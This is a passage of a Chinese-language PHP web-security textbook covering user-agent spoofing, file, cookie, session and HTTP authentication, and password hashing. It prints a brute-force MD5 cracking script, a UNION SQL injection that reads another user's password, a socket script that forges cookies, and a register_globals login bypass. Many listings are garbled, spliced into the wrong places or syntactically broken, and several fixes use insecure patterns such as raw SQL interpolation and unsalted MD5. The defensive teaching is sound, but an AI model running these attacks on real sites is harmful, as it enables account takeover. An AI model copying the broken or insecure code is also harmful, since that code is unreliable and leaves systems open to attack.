if(substr($useragent, 0, 12) == "StackRambler") $os = 'robot_rambler';
```

```php
if(!$os) {
    $query = "INSERT INTO useragent VALUES (NULL, '$useragent')";
    if($mysql_query($query)) exit(mysql_error());
}
?>
```

```php
$query = "INSERT INTO useragent VALUES (NULL, '$useragent')";
    if($mysql_query($query)) exit(mysql_error());
}
?>
```

现在，通过分析 `useragent` 表，可以确定该网站是否被搜索引擎机器人访问过。

## II.6.6. 防止下载管理器下载

考虑一种流行的下载管理器，其用户代理（user agent）具有如下的格式：

- Teleport Pro/1.29

要实现既定目标，只需将列表 II.6.10所示所示字符串放在页面开头即可。

### 列表 II.6.10. 防止下载管理器

```php
<?php
if(substr($_SERVER['HTTP_USER_AGENT'], 0, 8) == "Teleport") exit();
?>
```

防止下载管理器非法下载网站内容的方法并不是通用的。因为 `$_SERVER['HTTP_USER_AGENT']` 字符串是由客户端生成的——确切地说，是由主要目标是不计代价下载页面的下载管理器生成的——这个字符串经常被伪造，甚至留为空。


注意

## II.6.7. 伪造用户代理

要伪造用户代理，需要伪造 User-Agent 头部。例如，一个 Windows XP 用户可能会有如下用户代理：

```
Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1)
```

## 列表 II.6.11. 构造伪造的用户代理

```php
<?php
$hostname = "host";
$path = "/path/index.php";
$line = "";

// 建立连接，其 hostname 参数
// 通过 $hostname 参数传递进来
$fp = fsockopen($hostname, 80, $errno, $errstr, 30);
// 检查连接是否成功建立
if (!$fp) echo $errstr ($errno)<br />

else {
    // 构建用于传输到
// 服务器的 HTTP 头部
    $headers = "GET $path HTTP/1.1\r\n";
    $headers .= "Host: $hostname\r\n";
    // 伪造用户代理
    // 伪装成 Windows XP 用户
    $headers .= "User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1\r\n";
    $headers .= "Connection: Close\r\n";
    // 向服务器发送 HTTP 请求
    fwrite($fp, $headers);
    // 接收响应
    while (!feof($fp)) {
        $line = fgets($fp, 1024);
    }
    fclose($fp);
}
echo $line;
?>
```

# 第 II.7 章：授权与认证


## II.7.1. 基于文件的授权

在输入用户名和密码后，将检查用户名是否列在 `text.txt` 文件中。如果检查结果为正，则用户提供的密码与文件中存储的与用户名相关的密码进行比较。如果匹配，则显示编辑数据的表单。相应的脚本在列表 II.7.1所示。

### 列表 II.7.1. 基于文件的授权

```php
<?php
// 数据文件名
$filename = "text.txt";
// 定义第一个常量
// 用来判断
// 1.php 文件是否已执行
define("FIRST", 1);
// 检查 $_POST 数组
// 是否为空。如果是，则显示
// 授权表单
if (empty(\$_POST)) {
  <<table>
    <form method="post">
      <tr>
        <td>登录：</td>
        <td><input type="text" name="name"></td>
      </tr>
      <tr>
        <td>密码：</td>
        <td><input type="password" name="pass"></td>
      </tr>
      <tr>
        <td>&nbsp;</td>
        <td><input type="submit" value='进入'></td>
      </tr>
    </form>
  </table>
}
?>
<?php
// 如果 POST 数据已
// 发送，则处理它们
else {
  // 验证输入的
// 用户名和密码
  $arr = file(\$filename);
  $i = 0;
  $temp = array();
  foreach($arr as $line) {
    // 以 :: 分隔符分割行
    $data = explode(":", $line);
    // 将已注册用户的
// 用户名放入 $data 数组中
    $temp['name'][\i] = \$data[0];
    $temp['password'][\i] = \$data[1];
    $temp['email'][\i] = \$data[2];
    $temp['url'][$i] = trim($data[3]);
    // 计数器加1
    $i++;
  }
// 如果输入的登录名不在
// $temp['name'] 数组中，则终止脚本
if(!in_array($_POST['name'],$temp['name']))
{
    exit("无此用户!");
}
// 如果输入的登录名在 $_POST['name'] 数组中，
// 验证密码
$index = array_search($_POST['name'],$temp['name']);
if($_POST['password'] != $temp['password'][$index])
{
    exit("密码错误!");
}
// 如果输入正确的密码，
// 显示编辑数据的表单
include "2.php"; // 第二个 HTML 表单的处理器。
?>
```

<table>

<form method="post">

<input type="hidden" name="name"

value="<?php htmlspecialchars($temp['name']][$index]); ?>"

<input type="hidden" name="pass"

value="<?php htmlspecialchars($temp['password']][$index]); ?>"

<input type="hidden" name="edit" value="edit">

<tr>

<td>邮箱：</td>

<td><input type="text" name="email" value="<?php htmlspecialchars($temp['email']][$index]); ?></td>

</tr>

<tr>

<td>URL：</td>


<td><input type="text" name="url" value="<?php htmlspecialchars($temp['url']][$index]); ?></td>

</tr>

<tr>

<td>&nbsp;</td>

<td><input type="submit" value="编辑"></td>

</tr>

</form>

</table>

<?php

// 如果 1.php 文件中的

// FIRST 常量未定义，则尝试

// 绕过文件。阻止这种尝试

if (!defined('FIRST')) exit();

// 如果传递了 $_POST['edit'] 参数，

// 说明表单用于编辑数据。

if($_POST['edit'] == 'edit')

{

// 数据验证块

// 去除额外的空格

$_POST['name'] = trim($_POST['name']);

$_POST['pass'] = trim($_POST['pass']);

$_POST['pass_again'] = trim($_POST['pass_again']);

// 检查 $_POST 数组是否为空

if (empty($_POST['name'])) exit();

// 验证必需字段是否正确填写

if($_POST['name']) != exit('“用户名”字段不能为空!');

if (empty($_POST['pass']))

exit('“密码”字段不能为空!');

if (empty($_POST['pass_again']))

exit('“确认密码”字段不能为空!');

if($_POST['pass'] != $_POST['again'])

exit('密码不匹配!');

// 如果提供了邮箱，验证其格式

if(!empty($_POST['email']))

{

if(!preg_match("^[0-9a-z_]+@[0-9a-z_]+\.[a-z]{2,6}$/i", 

	$_POST['email']))

{

	exit

	('邮箱地址必须符合 somebody@somewhere.ru 格式。');

}

}

// 编辑数据文件

$arr = file($filename);

$linefile = array();

foreach($arr as $line) {

```

请注意，第一个常量 `FIRST` 是在第一个文件中定义的，并在 `2.php` 处理器中对其进行检查。如果未定义该常量，说明没有通过 `include` 指令将第二个文件包含在第一个。这意味着正在尝试直接访问该文件。

`if (!defined('FIRST')) exit();` 语句通过绕过 HTML 授权表单来防止对文件进行数据编辑。

## II.7.2. 密码加密

加密密码数据的方便方法是使用不可逆加密，即对数据进行加密使其无法被解密。初看这可能很奇怪，但这种加密非常常见。不可逆加密的函数被称为哈希函数（hashing functions）。它们会为编码后的字符串创建一个唯一的“指纹”。最常见的哈希算法是 MD5，它通过同名函数实现，如下所示：

```
string md5(string str [, bool raw_output])
```

该函数接收必须加密的 `str` 字符串并返回其唯一的 128 位哈希值。如果可选参数 `raw_output` 的值为 `true`，则返回一个 16 字符的二进制字符串。两个字符串产生相同代码的概率趋于零。

类似的函数 `md5_file()` 通常用于为通过网络传输的文件创建唯一的哈希值。下载文件后，可以通过计算其 MD5 哈希值并与开发者提供的哈希值进行比较来验证其完整性。此过程可以确保通过网络传输的文件没有损坏。此外，它还可以防止文件被篡改，并经常用于保护大型软件发行版。


注册用户的代码（列表 II.3.30）必须通过添加代码进行修改，使用 `md5()` 函数对其密码进行加密（列表 II.7.3）。


列表 II.7.3 仅显示部分代码；完整的用户注册代码可以在附带 CD-ROM 中的 `scripts/7.7.2/1.php` 文件中找到。


### 列表 II.7.3. 用户注册脚本

```
<?php

/////////////////////////////////////////////////
// 用户注册块
/////////////////////////////////////////////////
// 将数据存储在文本文件中
$fd = fopen($filename
fwrite($fd,$str);
close($fd);
...
?>
```

如列表 II.7.3 所示，`$_POST['pass']` 在保存到文件之前经过了 `md5()` 函数的处理。

现在，当密码被加密后，必须必须修改用户授权系统（列表 II.7.1 和 II.7.2）。列表 II.7.1 中的一个代码块必须按照列表 II.7.4 所示**加粗**的部分进行修改。

## 列表 II.7.4. 修改后的用户注册代码

```php
<?php

if(md5($_POST['pass']) != $temp['password'][$index])
{
    exit("Wrong password!");
}

// 如果输入正确的密码，
// 并显示编辑数据的表单
include "2.php"; // 第二个 HTML 表单的处理器
?>

<table>
<form method="post">
<input type="hidden" name="name"
value='<?php htmlspecialchars($temp['name'][$index]); ?>'>
<input type="hidden" name="pass"
value='<?php htmlspecialchars($_POST['pass']); ?>'>
<input type="hidden" name="edit" value=edit
<tr
<td>Password:</td>
<td><input type="password" name="passw"
value='<?php htmlspecialchars($_POST['pass']); ?>'></</td>>
</tr>
<tr>
<td>Password:</td>
<td><input type="password" name="pass again"
value='<?php htmlspecialchars($_POST['pass']); ?>'></</td>>
</tr>
<tr>
<td>Email:</td>
<td><input type=text name=email value="<?= htmlspecialchars($temp['email'][$index]); ?>"></</td>>
</tr>
<tr>
<td>URL:</td>
<td><input type=text name='url' value="<?= htmlspecialchars($temp['url'][$index]); ?>"></</td>>
</tr>
<tr>
<td>&nbsp;</td>
<td><input type="submit" value='Edit'></</td>>
</tr>
</form>
</table>

<?php
}
?>
```

此外，必须修改编辑表单的处理器，以便加密新密码（列表 II.7.5）。

## 列表 II.7.5. 修改后的编辑表单处理器

```php
<?php

///////////////////////////////////////////////////////
// 编辑数据文件
///////////////////////////////////////////////////////
$arr = file($filename);
$linefile = array();
foreach($arr as $line)
{
    // 在分隔符处拆分行
    $data = explode(":", $line);
    if($data[0] == $temp['name'][$index])
    {
        // 构建新字符串以替换旧字符串
        $linefile[] = $_POST['name'].":".md5($_POST['passw']).":".$_POST['email'].":".$_POST['url'];
        $_POST['passw'] = $_POST['passw'];
        $temp['email'][$index] = $_POST['email'];
        $temp['url'][$index] = $_POST['url'];
    }
    else
    $linefile[] = trim($line);
}
?>
```

### II.7.3. 猜密码

猜密码是通过遍历字符的所有可能组合来实现的，从单字符密码开始，在耗尽前一个长度的所有组合后，长度每次增加一个字符。在这种情况下，你知道密码长度 $n$ 大于四，且只使用小写字母。由于字符代码占据了从 97 到 122 的连续范围，它们通常在循环中生成。尽管如此，脚本更加灵活，允许使用所有字符，并将可能的字符都放入 `$pass` 数组中。由于密码长度通常未知且可能变化，脚本使用一个名为 `decrypt_md5($pass, $answer)` 的递归函数构建，该函数接受两个参数。第一个参数是加密字符串。另一个参数用于技术目的：使用它发送当前密码，在第一次调用函数时，其值为空字符串。函数返回猜到的密码；如果当前密码长度超过了指定的限制（即四个字符），则返回空字符串。

### II.7.6. 猜 MD5 密码

```php
<?php

//为脚本设置无限运行时间
set_time_limit(0);

// 从密码文件中读取密码
$pass = file("password");
foreach($pass as $password)
{
  // 记录猜密码过程的时间
  $begin = time();
  echo decrypt_md5(trim($password));
}

// 密码枚举函数
// $pass - 要猜的密码
// $answer - 当前的答案（第一次调用时为空字符串）
function decrypt_md5($pass, $answer)
{
  $arr = array('a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm', 'n', 'o', 'p', 'q', 'r', 's', 't', 'u', 'v', 'w', 'x', 'y', 'z');
  // 假设密码超过四个字符
  $max_number = 3;
  if (strlen($answer) > $max_number) return;
  for($j = 0; $j < count($arr); $j++) {
    $temp = $answer.$arr[$j];
    if (md5($temp) == $pass) return $temp;
    // 递归调用函数以增加猜密码的长度
    $result = decrypt_md5($pass, $temp);
    // 如果返回非空字符串，说明已猜到密码，不再继续搜索
    if (strlen($result) > 0) return $result;
  }
}
?>
```

脚本执行可能需要大量时间，因此在脚本代码开头通过调用 `set_time_limit()` 函数消除了执行时间限制。该函数的唯一参数是指定新最大执行时间的整数。如果该参数为零，则执行时间无限。

之后，`password` 文件的内容被拆分为字符串。这些字符串被放入 `$pass` 数组，并在循环中传递给递归函数 `decrypt_md5()`。


> 注意，$pass 数组中的字符串经过了 `trim` 函数，以去除可能存在的不可见尾随字符 `\r\n`。

## 第 II.7 节：授权与身份验证

大多数人倾向于使用字母表末尾的字母或较大的数字作为密码。数组中的字符可以以非升序或非降序的顺序排列。例如，可以将最常用的字母放在数组开头，将最少使用的字母移动到末尾。

然而，现实生活中的密码不太可能仅由四个小小写字母组成。在可能的密码字符集中包含数字（列表 II.7.7）会使密码破解的时间增加三倍（图 II.7.2）。

### 列表 II.7.7. 向可能的密码字符集添加数字

```php
<?php
$arr = array('a', 'b', 'c', 'd', 'e', 'f', 'g',
      'h', 'i', 'j', 'k', 'l', 'm', 'n',
      'o', 'p', 'q', 'r', 's', 't', 'u',
      'v', 'w', 'x', 'y', 'z',
      '1', '2', '3', '4', '5', '6',
      '7', '8', '9', '0');?>
```


> 图 II.7.2. 使用列表 II.7.2 字符集通过字符枚举破解密码

除了数字和大小写字母外，密码还可以包含特殊字符，例如句号、逗号、感叹号和问号、等号、括号和安培符号。

增加可能字符集中字符的数量会显著增加破解时间。然而，当密码长度增加时，破解时间的增加幅度更为巨大。因此，列表 II.7.6 中的脚本（仅使用小写英语字母）在密码长度仅增加一位到五个个字符时，其密码破解时间会增加一个数量级（图 II.7.3）。


> 图 II.7.3. 破解五位密码

当必须破解多个密码时，可以通过将每个可能的组合与所有未知单词进行比对来节省破解时间，而不是为每个密码运行所有可能的字符组合。处理列表 II.7.6 密码文件中所有可能的四位密码的脚本在列表 II.7.8 所示。

### II.7.8. 修改后的密码破解脚本

```php
<?php

// 为脚本设置无限执行时间
set_time_limit(0);

// 从密码文件中读取密码
$temp = file("password");

// 为密码破解过程计时
$begin = time();
$i = 0;
foreach($temp as $password) {
    $pass['password'][$i] = trim($password);
```

## 第 II.7 节：授权与身份验证 273

```php
$pass['answer'][$i] = "";
$i++;
}
decrypt_md5("");
$end = time();
echo " (密码破解花费了 ".($end - $begin).") 秒.<br>";
foreach($pass['answer'] as $password) {
    echo $password.<br>";
}

// 密码字符枚举函数
// $pass - 要破解的密码
// $answer - 当前的答案（第一次调用时为空字符串）
function decrypt_md5($answer) {
    global $pass;
    $arr = array('a', 'b', 'c', 'd', 'e', 'f', 'g',
                 'h', 'i', 'j', 'k', 'l', 'm', 'n',
                 'o', 'p', 'q', 'r', 's', 't', 'u',
                 'v', 'w', 'x', 'y', 'z');
    // 假设密码长度
    // 不超过四个字符
    $max_number = 3;
    if (strlen($answer) > $max_number) return;
    // 如果所有密码都破解，
    // 退出递归函数
    $ret = true;
    for($i = 0; $i < count($pass['pass']); $i++) {
        if (empty($pass['answer'][$i])) {
            $ret = false;
            break;
        }
    }
    if ($ret) return;
}
for($j = 0; $j < count($arr); $j++)
```

## 第二部分：解决方案

```php
$temp = $answer . $arr[$j];
// 检查是否发现了新密码
for($i = 0; $i < count($pass['pass']); $i++) {
    if (md5($pass['pass'][$i]) == $pass['answer']) {
        $pass['answer'][$i] = $temp;
    }
    // 递归调用函数以增加
```


```
// 正在破解的密码长度

decrypt_md5(`$temp`);

}
}
```

如列表 II.7.8 所示，传递给函数的参数不是单个密码，而是一个值的二维数组。此外，参数是通过引用传递的，这使得在函数调用后保留其值成为可能。每个新生成的密码哈希值都会与正在破解的密码的哈希值进行比较。当 `$pass['answer']` 数组中的所有元素都持有非零值时，退出递归循环。脚本的操作如图 II.7.4 所示。


> 图 II.7.4. 破解四个密码

## 第 II.7 节：授权与身份验证 275


> 图 II.7.5. 破解五位密码

从 II.7.5 可以看出，尽管字典包含了半兆字节的数据，但破解所有内容几乎不需要花费任何时间。当然，简单的真实密码很罕见，字典可以轻松扩展以包含更长、更复杂的密码。使用另一种键盘在一种语言中添加单词很容易的。后一种选择也被用于短密码的破解。

# 278 第二部分：解决方案

```php
function generate_password($number)
{
    $arr = array('a', 'b', 'c', 'd', 'e', 'f', 'g',
        'h', 'i', 'j', 'k', 'l', 'm', 'n',
        'o', 'p', 'q', 'r', 's', 't', 'u',
        'v', 'w', 'x', 'y', 'z',
        'A', 'B', 'C', 'D', 'E', 'F', 'G',
        'H', 'I', 'J', 'K', 'L', 'M', 'N',
        'O', 'P', 'Q', 'R', 'S', 'T', 'U',
        'V', 'W', 'X', 'Y', 'Z',
        '1', '2', '3', '4', '5', '6',
        '7', '8', '9', '0',
        '!', '@', '#', '$', '%', '&', '*', '?',
        '<', '>', '/', '\', '|', '+', '-', '~');

    // 生成一个密码
    $pass = "";
    for($i = 0; $i < $number; $i++) {
        // 生成一个随机数组元素
        $index = rand(0, count($arr) - 1);
        $pass .= $arr[$index];
    }
    return $pass;
}
?>
```

## II.7.6. 防止文本文件在浏览器中查看

通过创建列表 II.7.11 所示的 `.htaccess` 文件，可以阻止文本文件在浏览器中显示。

### 列表 II.7.11. .htaccess 文件

```apache
<Files "*.txt">
    deny from all
</Files>
```

# II.7 章：授权与身份验证 279

`Files` 中的 `*.txt` 掩码禁止从所有 IP 地址查看文本文件。尽管如此，PHP 脚本仍然能够处理文本文件工作。

## II.7.7. 基于 Cookie 的授权

授权脚本的问题在于授权只发生一次；在后续所有页面中只检查带有用户名的 cookie。这使得伪造 cookie 变得非常容易，可以使用浏览器（例如 Opera，它具有 cookie 编辑功能）或通过程序化方式实现。在系统中注册一个用户（假设用户名为 barton）并通过授权程序会在客户端机器上安装一个 cookie（图 II.7.7）。


图 II.7.7. 登录系统

之后，可以在 Opera 浏览器中将 cookie 的名称更改为系统中注册的任何名称（图 II.7.8）。

有许多具有 cookie 编辑功能的程序和浏览器。然而，Internet Explorer 并不是其中之一。

> 注意

这使得属于伪造 cookie 中用户名的用户（在本例中为 yandex）的所有的数据可以被攻击者访问（图 II.7.9）。

除了让攻击者能够访问其他用户的权限外，伪造的 cookie 还让获取该用户的密码变得非常简单，因为查询用户个人数据的 SQL 查询不会检查通过 cookie 发送的用户名。回想列表-II.7.12 所示的 `userslist` 表结构。


图 II.7.8. 在 Opera 浏览器中更改 cookie 信息


图 II.7.9. 访问另一个用户的数据

# II.7 章：授权与身份验证

列表 II.7.12. userslist 表的结构

```sql
CREATE TABLE userslist (
  id int(11) NOT NULL auto_increment,
  name tinytext NOT NULL,
  pass tinytext NOT NULL,
  email tinytext NOT NULL,
  url tinytext NOT NULL,
  PRIMARY KEY (id)
  TYPE=MyISAM;
```

用于显示用户密码的 SQL 注入可能列表 II.7.13 所示。

### 列表 II.7.13. 在浏览器窗口中显示密码的 SQL 注入

```sql
SELECT * FROM userslist
WHERE name = 'none'
UNION
SELECT id, name, pass, pass, url FROM userslist
WHERE name = 'yandex'
```

将用户名替换为加粗字符串将导致显示 yandex 用户的密码而不是电子邮箱（图 II.7.10）。


**图 II.7.10.** 使用 SQL 注入获取用户密码

这个示例再次证明，来自客户端机器的任何数据都是不可信任的，包括服务器端使用用户据理上不应该熟悉的机制所设置的数据：一切都是可以伪造的，而且早晚会发生。外面的不分分子远比你想象的要多，种类也更多。即使你认为你的个人网站对黑客没有吸引力，而且你不需要——

> 注意

# 第二部分：解决方案

担心保护它，它早晚会被破解的，即使是出于某些初级黑客的练习。

使用浏览器进行这种侵入非常有趣，但许多用户手头没有方便使用的必要的 cookie 编辑工具。在这种情况下，可以使用套接字向服务器发送以下伪造的 HTTP 头来编辑 cookie：

`Cookie: user = user_name;`

在这里，用户名是用户 cookie 将接收的值。Cookie 值必须通过 `urlencode()` 函数处理，以剔除任何国家和特殊字符，这些字符在 HTTP 头中是不被允许的。使用 HTTP 头实现 SQL 注入的脚本如列表 II.7.14 所示。

### 列表 II.7.14. 使用 HTTP 头伪造 cookie

```php
<?php
$hostname = "localhost";
$path = "/test.php";
$sql = "SELECT id, name, pass, pass, url FROM userslist WHERE name = 'yandex'";
// 生成一个密码
    $pass = "";
    for($i = 0; $i < $number; $i++) {
        // 生成一个随机数组元素
        $index = rand(0, count($arr) - 1);
        $pass .= $arr[$index];
    }
    return $pass;
}
?>
```

// 建立连接
    $fp = fsockopen($hostname, 80, $errno, $errstr, 30);
if (!$fp) {
    echo $errstr;
} else {
    // 构建头部
    $headers = "GET $path HTTP/1.1\r\n";
    $headers .= "Host: $hostname\r\n";
    // 伪造 cookie
    $headers .= "Cookie=" . urlencode($user_name) . "\r\n";
    $headers .= "Connection: close\r\n";
    // 向服务器发送请求
    fwrite($fp, $headers);
    // 接收服务器的回复
    $line = "";
    while (!feof($fp)) {
      $line .= fgets($fp, 1024);
    }
    fclose($fp);
    echo $line;
}
?>
```

你应该注意列表 II.7.11 中提到的 `$path`。


图 II.7.11. 执行 SQL

因此，将密码存储在 cookie 中是不够的；而且，用户每次尝试访问限制的服务时都应该经过授权程序。

# 284 第二部分：解决方案

# 列表 II.7.15  修改后的脚本

```php
<?php
// 如果用户成功授权，
// 输出问候
if(isset($_COOKIE['user']))
{
    // 连接数据库
    require_once("config.php");
    // 使用 escape_string() 函数处理提供的密码和登录
    // 以防止 SQL 注入

    if (!get_magic_quotes_gpc()) {
        $_COOKIE['user'] = mysql_escape_string($_COOKIE['user']);
        $_COOKIE['pass'] = mysql_escape_string($_COOKIE['pass']);
    }
    // 查询符合登录和密码标准的记录数
    $query = "SELECT COUNT(*) FROM userslist WHERE name = '$_COOKIE[user]' AND pass = '$_COOKIE[pass]''";
    $usr = mysql_query($query);
    if (!$usr) exit("授权错误!");
    // 获取记录数
    $total = mysql_result($usr,0);
    if($total > 0)
    {
        // 输出问候
        echo "Hello, "$_COOKIE['user']."<br>";
        echo "这是你的机密数据。<br>";
        // 显示用户数据
        $query = "SELECT * FROM userslist WHERE name = '$_COOKIE[user]'";
        $usr = mysql_query($query);
        if(!$usr) exit(mysql_error());
    }
}
?>
```

```<?php
// 刷新页面以重置 POST 数据
echo "<HTML><HEAD><META HTTP-EQUIV='Refresh';0; URL=";
```

```html
<form>
value = '<?php = $_COOKIE['user']; ?>'><br>
密码：<input type=password name=password value='><br>
<input type=submit value=发送>
</form>
<?php
```

```php
$user = mysql_fetch_array($usr);
echo "Your email is: ".$user['email']."<br>";
echo "Your URL is: ".$user['url']."<br>";
}
?>
```

与列表 I.7.2 相比，列表 II.7.15 中引入的修改已用**粗体**标记。

## II.7.8. 保护用户名

假设用户名存储在名为 `authors` 的表的 `name` 字段中。该任务是检查某个名称是否已被占用，或者是否与已注册的用户名相似。这个问题可以通过列表 II.7.16 所示的脚本来解决。

列表 II.7.16. 防止用户伪造的用户名保护

```php
<?php
// 确定是否为了恶意目的而创建了新名称。
// 必须防止以下情况发生：
// 1. 输入的名称与已注册的名称完全相同。
// 2. 存在现有的俄语用户名，其中一个或多个
// 字母被替换为英语的相似字母。
// 3. 存在现有的英语用户名，其中一个或多个
// 字母被替换为俄语的相似字母。
// 俄语字母数组
$rus = array("A", "a", "B", "b", "E", "e", "K", "k", "M", "m", "H", "h", "O", "o", "P", "p", "c", "x");
// 英语字母数组
$eng = array("A", "a", "B", "E", "e", "K", "k", "M", "m", "H", "h", "O", "o", "P", "p", "c", "x");
// 将俄语字母替换为英语字母
$eng_author = str_replace($rus, $eng, $author);
// 将英语字母替换为俄语字母
$rus_author = str_replace($eng, $rus, $author);
```

## II II.7 章：授权与身份验证

```php
// 构建 SQL 查询
$query = "SELECT * FROM authors
WHERE name LIKE '$author' OR
name LIKE '$eng_author' OR
name LIKE '$rus_author'";
$ath = mysql_query($query);
if(!$fd) exit("注册新用户错误!");
// 如果查询返回至少一条记录，
// 则终止用户注册程序
if (mysql_num_rows($ath)>0)
exit("很遗憾，此名称已被占用。请选择另一个名称。");
// 注册新用户的代码
```

脚本中声明了两个数组 `$rus` 和 `$eng`，分别包含外观相似的俄语和英语字母。由于用户名完全由俄语或英语字母组成，系统会检查以下三种终止注册过程的情况：

- 新用户的用户名与 `authors` 表中的某个名称相同。
- 将用户名中所有的英语字母替换为俄语字母后，新用户名与 `authors` 表中的某个名称匹配。
- 在将用户名中所有的俄语字母替换为英语字母后，新用户名与 `authors` 表中的某个名称匹配。

如果不符合这些条件，则新用户名在系统中是唯一的，并被添加到 `authors` 表中。

## II.7.9. 基于会话的授权

如果数据库中符合登录和密码标准的记录数大于零，则允许用户进入系统：登录和密码存储在会话（session）中。注册系统中的漏洞是记录数被存储在未初始化的临时变量 `$total` 中。如果 `php.ini` 配置文件中的 `register_globals` 指令设置为 `On`，则可以通过 POST 或 GET 方法直接向变量传递值。这意味着进入系统所需要做的只是将 URL 中的 `total` 参数值设置为 1（例如 `http://www.mysite.ru/1.php?total=1`），将密码字段留空，并将任何已注册的名称输入到 `name` 字段（图 II.7.12）。密码字段必须留空以持续触发 `if(empty($_POST['name']) && empty($_POST['password']))` 检查，该检查的执行将重写 `$total` 变量。


这个例子中的漏洞显而易见。在现实世界的注册系统中，代码要复杂得多，漏洞也不那么明显。


图 II.7.12. 绕过基于会话的授权

使用 GET 方法验证整组参数并不是最佳解决方案，因为 `total` 参数也可以通过 POST 方法甚至在 cookie 中传递。一种有效的解决方案是在 `php.ini` 配置文件或 `.htaccess` 文件中将 `register_globals` 变量的值设为 `Off`（分别为 `register_globals off` 和 `php_flag register_globals off`）。

然而，租用服务器的站点所有者并不总是可以访问这些配置文件；因此，最合适的解决方案是修正代码本身。这可以通过删除 `$total` 变量来实现，如列表 II.7.17 所示。

## II.7 章：授权与身份验证 

288 第二部分：解决方案

列表 II.7.17 的完整源代码可以在附带 CD 光盘的 `/scripts/7/7.9/2.php` 文件中找到。


## Listing II.7.17. 通过移除 $total 变量修复漏洞


```php
<?php
...
// 如果记录数大于零，
// 将用户数据保存到会话中
if (mysql_result($usr, 0)) {
    $_SESSION['name'] = $_POST['name'];
    $_SESSION['password'] = $_POST['password'];
}
...
?>
```

然而，出于构造考虑，这种方法并不总是适用。基于会话的授权系统的另一种实现方案是将 `$total` 变量替换为常量（列表 II.7.18）。常量无法通过外部变量伪造。

列表 II.7.18 的完整源代码可以在附带 CD 光盘的 `/scripts/7/7.9/3.php` 文件中找到。


## II.7.18. 使用常量修复漏洞

```php
<?php
...
// 构建一个 SQL 查询来返回
// 符合登录和密码标准的
// 记录数
$query = "SELECT COUNT(*) FROM authors
    WHERE name LIKE '$author' OR
    name LIKE '$eng_author' OR
    name LIKE '$rus_author'";
$ath = mysql_query($query);
if(!$fd) exit("注册新用户错误!");
// 如果查询返回至少一条记录，
// 则终止用户注册程序
if (mysql_num_rows($ath)>0)
exit("很遗憾，此名称已被占用。请选择另一个名称。");
// 注册新用户的代码
```


## II.7.19. 通过初始化 $total 变量修复漏洞

```php
<?php
...
// 如果记录数大于零，
// 将用户数据保存到会话中
if (mysql_result($usr, 0)) {
    $_SESSION['name'] = $_POST['name'];
    $_SESSION['password'] = $_POST['password'];
}
...
?>
```

## II.7.10. 数据库存储密码的加密

注册系统可能构建在第 4 节。只有新用户需要进行修改：

```php
INSERT INTO userslist VALUES (NULL, '$POST[email]',
'$POST[url])
```


在实现授权系统时，输入的密码使用 MD5 加密。

为了保护用户的明文密码，在实现授权系统时应使用 `md()` 进行加密。


## II.7.11. 基本 HTTP 授权

实现 HTTP 授权时向客户端发送以下 HTTP 头部：

```
WWW-Authenticate: Basic realm = "Admin Page"
HTTP/1.0 401
```

## II.7.20. security_mod.php 文件

```php
<?php
// 连接数据库
require once("config.php");
// 如果用户未授权，启动授权程序
if(isset($_SERVER['PHP_AUTH_USER']))
{
    Header("WW-Authenticate: Basic realm = \"Admin Page\"");
    Header("HTTP/1.0 401 Unauthorized");
    exit();
}
else
{
    // 检查 $_SERVER['PHP_AUTH_USER'] 和
    // $_SERVER['PHP_AUTH_FW'] 变量以防止
    // SQL 注入
    if (get_mysql_quotes_gpc())
    {
        $_SERVER['PHP_AUTH_USER'] = =
            mysql_escape_string($_SERVER['PHP_AUTH_USER']);
        $_SERVER['PHP_AUTH_FW'] = =
            mysql_escape_string($_SERVER['PHP_AUTH_FW']);
    }
}
$query = "SELECT pass FROM userslist
    WHERE name = \".$_SERVER['PHP_AUTH_USER'].""";
$lst = @mysql_query($query);
// 如果 SQL 查询错误，显示密码输入窗口
if(!$lst)
```

```

# 第 II.7 章：授权与身份验证

```php

(

    Header("WWW-Authenticate: Basic realm = \"Admin Page\"");

    Header("HTTP/1.0 401 Unauthorized");

    exit();

}

// 如果没有该用户，显示密码输入窗口

if (mysql_num_rows($list) == 0) {

    Header("WWW-Authenticate: Basic realm = \"Admin Page\"");

    Header("HTTP/1.0 401 Unauthorized");

    exit();

}

// 如果所有检查通过，比较密码哈值

$pass = @mysql_fetch_array($list);

if (md5($SERVER['PHP_AUTH_PW']) != $pass['pass']) {

    Header("WWW-Authenticate: Basic realm = \"Admin Page\"");

    Header("HTTP/1.0 401 Unauthorized");

    exit();

}

?>
```

从列表所示，在授权失败的情况下，会发送另一个授权请求：

WWW-Authenticate: Basic realm = "Admin Page"
HTTP/1.0 401 Unauthorized

之后，脚本执行将由 `exit()` 函数终止。可以限制输入密码的次数。这可以通过发送 HTTP/1.0 404 Page not Found 头部而不是之前描述的头部来实现。

在需要密码保护的页面开头，必须使用 `include` 语句包含 `security_mod.php` 安全模块。

# 列表 II.7.21. 使用密码保护页面

```php

<?php

// 引入安全模块

require_once("security_mod.php");

?>
```

受保护的页面。

# 第 II.8 章：使用来自其他的信息


## II.8.1. 下载 HTML 页面

通过简单将网络路径作为文件名传递给标准文件处理函数即可下载远程主机的页面。

列表 II.8.1. 下载 HTML 页面（PHP 4.3.0 及更高版本）

```php

// 从远程主机下载页面

$content = file_get_contents("http://www.php.net/");

// 将页面内容保存到文件中

$fd = fopen("url.txt", "w");

fwrite($fd, $content);

close($fd);

?>
```

执行列表 II.8.1 脚本会将 `url.txt` 文件的索引内容保存。`file_get_contents()` 函数中的 `http://www.php.net` 站点非常方便，它可以将本地或远程文件的内容作为字符串返回。

# 第 II.8 章：使用来自其他的信息 295

然而，它直到 PHP 4.3.0 才可用。对于更早的 PHP 版本，必须使用列表 II.8.2 所示的脚本。

# 列表 II.8.2. 下载 HTML 页面（PHP 4.3.0之前的版本）

```php

<?php

// 获取远程页面句柄

$fd = fopen("http://www.php.net/", "r");

if (!$fd) exit("Cannot find the requested page!");

$content = "";

// 将文件内容读取到 $content 变量

while (!feof($fd)) {

    $content .= fgets($fd, 1024);

}

// 关闭文件

close($fd);

// 将页面内容保存到文件中

$fd = fopen("url.txt", "w");

fwrite($fd, $content);

close($fd);

?>
```

